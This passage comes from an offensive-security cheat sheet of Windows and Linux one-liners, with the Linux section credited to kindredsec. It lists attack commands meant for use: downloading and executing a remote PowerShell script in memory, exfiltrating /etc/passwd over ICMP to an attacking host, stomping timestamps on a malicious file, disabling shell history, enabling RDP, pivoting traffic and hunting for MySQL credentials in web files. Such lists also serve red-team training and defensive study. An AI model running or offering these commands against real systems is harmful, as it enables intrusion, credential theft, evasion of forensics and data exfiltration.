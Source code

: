*Forward traffic to an internal host*

`netsh interface portproxy add v4tov4 listenport=*port* listenaddress=*ip* connectport=*port* connectaddress=*ip`

*Download and execute a remote PowerShell script (all in-memory)*

`iex (New-Object Net.Webclient).DownloadString('*remote_file*')`

*Check the permissions of all binaries associated with services*

`$list = Get-WmiObject win32_service | select -ExpandProperty PathName | Select-String -NotMatch svchost; foreach ( $path in $list ) { icacls $path 2>null | Select-String -NotMatch "Successfully processed" }`

*Enable RDP (may also need firewall rule)*

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`



### ~ Linux One-Liners ~ **[kindredsec](https://twitter.com/kindredsec)**
*Stomp a timestamp to match other install-time files*

`touch -a -m -t $(stat -c '%y' /bin/bash | cut -d ":" -f 1,2 | sed 's/[- :]//g') malicious_file.sh`

*Prevent ran bash commands from being written to a history file*

`export HISTFILE=/dev/null`

*Exfiltrate users over ICMP*

`while read line; do ping -c 1 -p $(echo "$line" | cut -d ":" -f 1,2,3,7 | xxd -ps) my_attacking_host; done < /etc/passwd`

*Locate mySQL credentials within web files*

`egrep -ri '(mysql_connect\(|mysqli_connect\(|new mysqli\(|PDO\(\"mysql:)' /var/www/* 2> /dev/null`

*List all the SUID Binaries on a System*

`find / -perm -4000 2>/dev/null`

*Creates iptables rules to transparently route traffic destined to a specific port to an internal host*

`iptables -t nat -A PREROUTING -i *interface* -p tcp --dport *port* -j DNAT --to-destination *remote_ip_address* & iptables -t nat -A POSTROUTING -o *interface* -p tcp --dport *port* -d *remote_ip_address* -j SNAT --to-source *local_ip_address*`

*List all running processes being ran by users other than your current one*

`ps -elf | grep -v $(whoami)`

*List all system cronjobs*

`for i in d hourly daily weekly monthly; do echo; echo "--cron.$i--"; ls -l /etc/cron.$i; done`
